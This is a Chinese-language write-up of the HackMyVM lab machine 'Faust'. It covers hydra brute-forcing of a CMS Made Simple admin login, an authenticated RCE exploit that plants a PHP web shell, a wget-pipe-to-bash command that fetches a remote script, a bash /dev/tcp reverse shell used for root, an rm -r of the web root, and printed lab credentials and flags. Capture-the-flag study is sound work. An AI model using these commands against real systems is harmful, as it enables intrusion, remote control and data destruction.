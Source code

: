 # Faust

2024-11-10 https://hackmyvm.eu/machines/machine.php?vm=Faust

## IP

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
6660/tcp open  unknown
```

先看 6660，telnet 连接后得到一个提示：

```
telnet 192.168.5.40 6660

MESSAGE FOR WWW-DATA:

www-data I offer you a dilemma: if you agree to destroy all your stupid work, then you have a reward in my house...
Paul
```

得到一个像是用户名 Paul，其他没有信息。

看看 80 web 服务，是一个 CMS Made Simple 的 CMS 版本 2.2.5。

先尝试爆破看看能不能得到密码，使用 paul 爆破没有找到密码，在尝试该 CMS 的默认管理员是 admin：

```
hydra -t 20 -l admin -P ~/tools/dict/rockyou.txt 192.168.5.40 -f http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=User name or password incorrect"

[80][http-post-form] host: 192.168.5.40   login: admin   password: bullshit
```

找到了密码 bullshit 能够进入系统后台，同时该版本的 CMS 存在一个认证情况下的 RCE 漏洞 44976.py，使用得到的凭据进行利用，修改 ip 和凭据等：

```
base_url = "http://192.168.5.40/admin"
upload_dir = "/uploads"
upload_url = base_url.split('/admin')[0] + upload_dir
username = "admin"
password = "bullshit"

csrf_param = "_sk_"  <-- 这里要根据系统返回的前缀进行修改，否则执行会报错
txt_filename = 'cmsmsrce.txt'
php_filename = 'shell.php'
payload = "<?php system($_GET['cmd']);?>"
```

最后得到 shell 连接 http://192.168.5.40/shell.php (注意没有在 upload 目录中，是在根目录中)：

```
curl -G --data-urlencode 'cmd=id' http://192.168.5.40/shell.php
```

执行反弹，获得 web shell：

```
curl -G --data-urlencode 'cmd=wget -q -O - http://192.168.5.3/5-3/8888.sh|bash' http://192.168.5.40/shell.php
```

进入 shell 后，先看到 config.php 里面有数据库连接配置信息，可能存在密码复用的情况：

```
$config['dbms'] = 'mysqli';
$config['db_hostname'] = 'localhost';
$config['db_username'] = 'cms_user';
$config['db_password'] = 'UltraSecurePassword';
$config['db_name'] = 'cms_db';
$config['db_prefix'] = 'cms_';
$config['timezone'] = 'Europe/Berlin';
```

发现用户 /home/nico 下有 user flag，但是要先提权到此用户。

pspy 发现 bash /home/paul/.local/chaos.sh 这个脚本每秒都在运行，同时发现另外一个脚本/home/paul/.local/chaos.sh 但是这些都看不到内容。

回看最开始的 6660 端口中说的内容：

```
MESSAGE FOR WWW-DATA:

www-data I offer you a dilemma: if you agree to destroy all your stupid work, then you have a reward in my house...
Paul
```

让我们删除/var/www/html 中的内容，看看会不会在 paul 的 home 目录中出现内容：

```
rm -r /var/www/html/
```

删除后，果然在 paul 的目录中出现了 paul 用户的密码文件：

```
www-data@debian:/home/paul$ ls
password.txt
www-data@debian:/home/paul$ cat password.txt
Password is: YouCanBecomePaul
```

su paul 切换到了 paul 用户。

sudo -l 发现提示：

```
(nico) /usr/bin/base32
```

直接读取 user flag:

```
sudo -u nico /usr/bin/base32 /home/nico/user.txt | base32 --decode
gamhanarhu
```

发现 /home/nico/ 中有一个 .secret.txt 文件，也使用上面的方式进行读取：

```
sudo -u nico /usr/bin/base32 /home/nico/.secret.txt | base32 --decode

UHcgPT4ganVzdF9vbmVfbW9yZV9iZWVyIA==

echo 'UHcgPT4ganVzdF9vbmVfbW9yZV9iZWVyIA=='|base64 -d
Pw => just_one_more_beer
```

just_one_more_beer 应该是 nico 的用户密码，su 切换成功。nico 没有 sudo -l 权限。经过 lin peas 也没发现其他可利用路径，在 / 根目录中发现了 nico 文件夹，里面有一个 homer.jpg 图片。将其传送到 kali 上进行图片隐写分析：

```
steghide --extract -sf homer.jpg

cat note.txt
my /tmp/goodgame file was so good... but I lost it
```

/tmp/goodgame 应该是个被定时调用的脚本，pspy 中发现 2024/11/10 04:56:01 CMD: UID=0 PID=15768 | /bin/sh -c /tmp/goodgame，但是在 tmp 中没有，我们可以自己创建反弹 shell：

```
#!/bin/bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/5555 0>&1'
```

但是发现一直没有反应,这个 /tmp 目录不对，尝试用 ssh 登陆 nico 用户，再次创建上面的脚本，最终得到了 root flag：

```
root@debian:~# id
id
uid=0(root) gid=0(root) groupes=0(root)
root@debian:~# ls
ls
root.txt
root@debian:~# cat root.txt
cat root.txt
lasarnsilgam
```
